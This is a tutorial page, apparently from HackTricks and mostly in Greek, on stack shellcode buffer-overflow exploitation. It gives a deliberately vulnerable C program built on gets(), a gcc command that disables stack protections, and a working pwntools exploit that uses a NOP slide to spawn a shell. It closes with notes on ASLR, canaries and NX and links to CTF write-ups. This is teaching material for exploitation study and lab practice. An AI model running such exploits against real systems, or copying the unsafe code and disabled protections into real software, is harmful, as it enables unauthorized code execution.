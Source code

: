 # Stack Shellcode

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

**Stack shellcode** είναι μια τεχνική που χρησιμοποιείται στην εκμετάλλευση δυαδικών αρχείων όπου ένας επιτιθέμενος γράφει shellcode στη στοίβα ενός ευάλωτου προγράμματος και στη συνέχεια τροποποιεί τον **Δείκτη Εντολών (IP)** ή τον **Εκτεταμένο Δείκτη Εντολών (EIP)** για να δείξει στη θέση αυτού του shellcode, προκαλώντας την εκτέλεσή του. Αυτή είναι μια κλασική μέθοδος που χρησιμοποιείται για να αποκτήσει μη εξουσιοδοτημένη πρόσβαση ή να εκτελέσει αυθαίρετες εντολές σε ένα στοχευμένο σύστημα. Ακολουθεί μια ανάλυση της διαδικασίας, συμπεριλαμβανομένου ενός απλού παραδείγματος C και πώς θα μπορούσατε να γράψετε μια αντίστοιχη εκμετάλλευση χρησιμοποιώντας Python με **pwntools**.

### C Example: A Vulnerable Program

Ας ξεκινήσουμε με ένα απλό παράδειγμα ενός ευάλωτου προγράμματος C:
```c
#include <stdio.h>
#include <string.h>

void vulnerable_function() {
char buffer[64];
gets(buffer); // Unsafe function that does not check for buffer overflow
}

int main() {
vulnerable_function();
printf("Returned safely\n");
return 0;
}
```
Αυτό το πρόγραμμα είναι ευάλωτο σε υπερχείλιση μνήμης λόγω της χρήσης της συνάρτησης `gets()`.

### Συγκέντρωση

Για να συγκεντρώσετε αυτό το πρόγραμμα απενεργοποιώντας διάφορες προστασίες (για να προσομοιώσετε ένα ευάλωτο περιβάλλον), μπορείτε να χρησιμοποιήσετε την παρακάτω εντολή:
```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```
* `-fno-stack-protector`: Απενεργοποιεί την προστασία της στοίβας.
* `-z execstack`: Κάνει τη στοίβα εκτελέσιμη, κάτι που είναι απαραίτητο για την εκτέλεση του shellcode που είναι αποθηκευμένο στη στοίβα.
* `-no-pie`: Απενεργοποιεί το Position Independent Executable, διευκολύνοντας την πρόβλεψη της διεύθυνσης μνήμης όπου θα βρίσκεται το shellcode μας.
* `-m32`: Συμπιέζει το πρόγραμμα ως 32-bit εκτελέσιμο, συχνά χρησιμοποιούμενο για απλότητα στην ανάπτυξη exploits.

### Python Exploit using Pwntools

Here's how you could write an exploit in Python using **pwntools** to perform a **ret2shellcode** attack:
```python
from pwn import *

# Set up the process and context
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path
context.arch = 'i386' # Specify the architecture

# Generate the shellcode
shellcode = asm(shellcraft.sh()) # Using pwntools to generate shellcode for opening a shell

# Find the offset to EIP
offset = cyclic_find(0x6161616c) # Assuming 0x6161616c is the value found in EIP after a crash

# Prepare the payload
# The NOP slide helps to ensure that the execution flow hits the shellcode.
nop_slide = asm('nop') * (offset - len(shellcode))
payload = nop_slide + shellcode
payload += b'A' * (offset - len(payload))  # Adjust the payload size to exactly fill the buffer and overwrite EIP
payload += p32(0xffffcfb4) # Supossing 0xffffcfb4 will be inside NOP slide

# Send the payload
p.sendline(payload)
p.interactive()
```
Αυτό το σενάριο κατασκευάζει ένα payload που αποτελείται από μια **NOP slide**, το **shellcode**, και στη συνέχεια αντικαθιστά το **EIP** με τη διεύθυνση που δείχνει στη NOP slide, διασφαλίζοντας ότι το shellcode θα εκτελεστεί.

Η **NOP slide** (`asm('nop')`) χρησιμοποιείται για να αυξήσει την πιθανότητα ότι η εκτέλεση θα "γλιστρήσει" στο shellcode μας ανεξάρτητα από τη ακριβή διεύθυνση. Ρυθμίστε το επιχείρημα `p32()` στη αρχική διεύθυνση του buffer σας συν μια μετατόπιση για να προσγειωθείτε στη NOP slide.

## Προστασίες

* [**ASLR**](../common-binary-protections-and-bypasses/aslr/) **θα πρέπει να είναι απενεργοποιημένο** για να είναι η διεύθυνση αξιόπιστη σε όλες τις εκτελέσεις ή η διεύθυνση όπου θα αποθηκευτεί η συνάρτηση δεν θα είναι πάντα η ίδια και θα χρειαστείτε κάποια leak για να καταλάβετε πού είναι φορτωμένη η win function.
* [**Stack Canaries**](../common-binary-protections-and-bypasses/stack-canaries/) θα πρέπει επίσης να είναι απενεργοποιημένα ή η συμβιβασμένη διεύθυνση επιστροφής EIP δεν θα ακολουθηθεί ποτέ.
* Η προστασία **NX** (../common-binary-protections-and-bypasses/no-exec-nx.md) **stack** θα αποτρέψει την εκτέλεση του shellcode μέσα στη στοίβα επειδή αυτή η περιοχή δεν θα είναι εκτελέσιμη.

## Άλλα Παραδείγματα & Αναφορές

* [https://ir0nstone.gitbook.io/notes/types/stack/shellcode](https://ir0nstone.gitbook.io/notes/types/stack/shellcode)
* [https://guyinatuxedo.github.io/06-bof\_shellcode/csaw17\_pilot/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/csaw17\_pilot/index.html)
* 64bit, ASLR με leak διεύθυνσης στοίβας, γράψτε shellcode και πηδήξτε σε αυτό
* [https://guyinatuxedo.github.io/06-bof\_shellcode/tamu19\_pwn3/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/tamu19\_pwn3/index.html)
* 32 bit, ASLR με leak στοίβας, γράψτε shellcode και πηδήξτε σε αυτό
* [https://guyinatuxedo.github.io/06-bof\_shellcode/tu18\_shellaeasy/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/tu18\_shellaeasy/index.html)
* 32 bit, ASLR με leak στοίβας, σύγκριση για να αποτραπεί η κλήση στο exit(), αντικαταστήστε μια μεταβλητή με μια τιμή και γράψτε shellcode και πηδήξτε σε αυτό

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
